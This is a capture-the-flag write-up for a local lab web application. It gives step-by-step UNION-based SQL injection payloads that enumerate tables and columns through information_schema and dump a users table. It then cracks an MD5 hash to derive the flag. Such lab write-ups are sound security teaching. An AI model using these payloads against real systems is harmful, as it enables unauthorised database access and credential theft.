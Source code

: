 <h1>On to the sixth flag</h1>


<h2>How to get flag</h2>

<ol>
<li>Navigate to http://192.168.1.100/index.php?page=member</li>
<li>Enter 1 or 1 = 1 inside search bar to test for basic sql injection, here you see results of the sql query in the application meaning the application is vulnerable to a union attack</li>
<li>Try to get the name of the table using information_schema object</li>
    <p>Run the following script inside the search input field</p><br/>
    <p>
        ''
            1=1  UNION SELECT  table_name, 1 FROM information_schema.tables WHERE table_schema = database() 
        ''
        We should see the table returned is 'users'
    </p>
<li>Since we know the table name we can try to see what the contents are. First we need to know what the columns are though</li>
 <p>Run the following script inside the search input field</p><br/>
    <p>
        ''
            1=1  UNION SELECT  column_name, 1 FROM information_schema.columns WHERE table_schema = database()
        ''
    </p>
<li>So now we know the tables name and the columns in it so we can try to return the data inside the columns we got back now</li>
    <p>Run the following script inside the search input field</p><br/>
    <p>
        ''
            1=1 UNION SELECT null, concat (user_id,first_name,last_name,town,country ,planet,commentaire,countersign) from users
        ''
    </p>
<li>Inside your results you should see this inside one of the surname fields</li>
<p>Surname : 5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28</p>
<li>So from the surname property we see to decode the password using MD5 then lowercasing the password </li>
<p>
    '''
    MD5 decrpyt result = FortyTwo
    lowercased = fortytwo
    '''
</p>
<li>After running sha 256 calculator on the lowercased result = 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5</li>
</ol>


<h3>Well done we found the sixth flag!</h3>

